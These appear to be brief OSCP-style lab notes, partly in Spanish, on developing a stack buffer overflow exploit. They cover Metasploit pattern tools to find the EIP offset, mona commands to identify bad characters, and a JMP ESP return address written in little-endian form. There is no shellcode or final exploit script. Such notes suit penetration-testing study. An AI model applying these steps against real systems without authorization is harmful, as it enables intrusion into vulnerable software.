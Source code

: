```php
❯ msf-pattern_create -l 600

```

```php
❯ msf-pattern_offset -q 41397241
[*] Exact match at offset 537

```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 011EFA18
!mona bytearray -cpb "\x00\xa0"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00E8FA18
!mona bytearray -cpb "\x00\xa0\xad"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00E8FA18
!mona bytearray -cpb "\x00\xa0\xad\xbe"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0103FA18
!mona bytearray -cpb "\x00\xa0\xad\xbe\xde"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00E4FA18
!mona bytearray -cpb "\x00\xa0\xad\xbe\xde\xef"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00EFFA18
```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb "\x00\xa0\xad\xbe\xde\xef"
```

![20240229000435.png](20240229000435.png)

```php
625011AF
```

```php
\xAF\x11\x50\x62
```
